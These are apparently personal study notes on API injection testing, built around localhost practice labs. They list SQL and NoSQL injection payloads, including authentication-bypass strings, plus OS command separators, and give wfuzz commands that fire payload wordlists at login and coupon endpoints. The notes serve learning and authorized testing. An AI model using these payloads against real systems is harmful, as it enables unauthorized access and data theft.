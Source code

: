When reviewing an API documentation, if it is expecting a certain type of input (number, string, boolean) send - 
1. a very large number
2. a very large string
3. negative number
4. string instead of number or boolean
5. random charachters
6. boolean values
7. meta characters

## Metacharacters 
    '

    ''

    ;%00

    --

    -- -

    ""

    ;

    ' OR '1

    ' OR 1 -- -

    " OR "" = "

    " OR 1 = 1 -- -

    ' OR '' = '

    OR 1=1

>SELECT * FROM userdb WHERE username = 'hAPI_hacker' AND password = 'Password1!'

>SELECT * FROM userdb WHERE username = 'hAPI_hacker' OR 1=1-- -

## NoSQL Injection

APIs commonly use NoSQL databases due to how well they scale with the architecture designs common among APIs. Also, NoSQL injection techniques aren’t as well-known as their structured counterparts. Due to this one small fact, you might be more likely to find NoSQL injections.

As you hunt, remember that NoSQL databases do not share as many commonalities as the different SQL databases do. NoSQL is an umbrella term that means the database does not use SQL. Therefore, these databases have unique structures, modes of querying, vulnerabilities, and exploits. Practically speaking, you’ll conduct many similar attacks and target similar requests, but your actual payloads will vary. The following are common NoSQL metacharacters you could send in an API request to manipulate the database:

    $gt 

    {"$gt":""}

    {"$gt":-1}

    $ne

    {"$ne":""}

    {"$ne":-1}

    $nin

    {"$nin":1}

    {"$nin":[1]}

    {"$where":  "sleep(1000)"}

## OS Injection
Operating system command injection is similar to the other injection attacks we’ve covered in this chapter, but instead of, say, database queries, you’ll inject a command separator and operating system commands. When you’re performing operating system injection, it helps a great deal to know which operating system is running on the target server. Make sure you get the most out of your Nmap scans during reconnaissance in an attempt to glean this information.

As with all other injection attacks, you’ll begin by finding a potential injection point. Operating system command injection typically requires being able to leverage system commands that the application has access to or escaping the application altogether. Some key places to target include URL query strings, request parameters, and headers, as well as any request that has thrown unique or verbose errors (especially those containing any operating system information) during fuzzing attempts.

Characters such as the following all act as command separators, which enable a program to pair multiple commands together on a single line. If a web application is vulnerable, it would allow an attacker to add command separators to existing command and then follow it with additional operating system commands:

|

||

&

&&

'

"

;

'"

If you don’t know a target’s underlying operating system, put your API fuzzing skills to work by using two payload positions: one for the command separator followed by a second for the operating system command. The table below is a small list of potential operating system commands to use.

Common Operating System Commands to Use in Injection Attacks

Operating system

Command

Windows

    ipconfig shows the network configuration.

    dir prints the contents of a directory.

    ver prints the operating system and version.

    whoami prints the current user.

    *nix (Linux and Unix)

    ifconfig shows the network configuration.

    ls prints the contents of a directory.

    pwd prints the current working directory.

    whoami prints the current user.

 
 ## Steps
 1. Find potential endpoints and parameters.
 2. Try fuzzing and finding anomalities in postman by variables.
 3. Try sending the request to burp and send it to intruder to automate payloads on target parameter.
4. save request to a file from burp suite and replace the fuzzing parameter value with FUZZ - {"coupon_code":FUZZ}
5. using wfuzz to automate the testing -
   
        wfuzz -z file,/usr/share/wordlists/PayloadsAllTheThings/NoSQL\ Injection/Intruder/NoSQL.txt -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0ZXJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxMjQ3NDYzMCwiZXhwIjoxNzEzMDc5NDMwfQ.pY1PF5wW0wXFYde1kJIGLlrzjTGD_IMmrj2CTr3S_XDEp0myEiPrZNAZbD62RP21iw00ZofwkhauW7I6fm54pbnXKvhG7sOBCFIigsx6virBSiMpNBz8rnWCciWZCyEUL6Gh2qXZZkitLue62m4lBipyrsuqHCFMJjglgg2kDWcae4gC_9pLxcG6gmpmzJwD6qPTUMD7aOdQqJEFfqaSj-nMxL_0WeIXjY_CgJ5loJHIiDAzZC4YsHpQhXf5zQUIM6q0g8Xee3KfhWppboqKVkc0wY_FJgxxD_GthHG3ix5l1ekJSF99mDDz7Iy8Hs4CnS2rlx4_HgZ8yrNvndmo8g" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon


## Note
1. Look at how the payload is getting succeeded in execution. 
     
        wfuzz -z file,test -H "Content-Type: application/json" -d "{\"username\":\"FUZZ\",\"password\":\"password\"}" -p localhost:8080 http://localhost/vapi/api8/user/login

2. Check for " marks and escape them accordingly to get right results

        wfuzz -z file,/usr/share/wordlists/PayloadsAllTheThings/SQL\ Injection/Intruder/Auth_Bypass.txt -H "Content-Type: application/json" -d "{\"username\":\"FUZZ\",\"password\":\"password\"}" --sc 200  http://localhost/vapi/api8/user/login
